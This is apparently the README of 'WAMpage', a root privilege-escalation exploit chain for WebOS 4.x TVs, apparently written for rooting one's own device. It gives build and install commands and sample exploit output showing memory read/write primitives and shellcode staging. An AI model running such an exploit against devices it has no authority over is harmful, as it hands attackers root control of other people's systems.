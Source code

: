 # WAMpage
WAMpage - A WebOS root LPE exploit chain

Currently only supports WebOS 4.x on 32-bit SoCs.

## Building

Prerequesites:

```bash
apt install qemu-user
npm install -g @webosose/ares-cli
```

Compiling:

```bash
make
```

## Testing Locally

`make test` will build and run the exploit in `d8`, running in `qemu-arm`. (A pre-compiled version of d8 and its dependencies are included in the `bin/` directory). If the exploit works succesfully, you'll probably get something like this:

```
[+] Starting WAMpage...
[+] addrof(myobj) = 0x5a68f5d1
[+] Test: reconstructed myobj: {"foo":"bar"}
[+] Set up arbread32/arbwrite32.
[+] stage2 shellcode loaded @ 0xff458000
[+] myfunc @ 0x5a693369
[+] stage1 RWX buf @ 0x5bb8f280
[+] Copied stage1 shellcode. Calling...
Traceback (most recent call last):
  File "<stdin>", line 25, in <module>
IOError: [Errno 13] Permission denied: '/dev/mem'
```

The permission error is expected, assuming your machine isn't totally misconfigured.

You can test the `devmemes.py` exploit by running it directly on a TV, but you'll either need root to begin with, or some other kind of unsandboxed/unjailed shell.

## Installation on TV

You can use `ares-install`, or manually copy over the IPK and run this from the devmode shell:

```bash
luna-send-pub -i 'luna://com.webos.appInstallService/dev/install' '{"id":"tv.rootmy.wampage","ipkUrl":"/path/to/wampage.ipk","subscribe":true}'
```
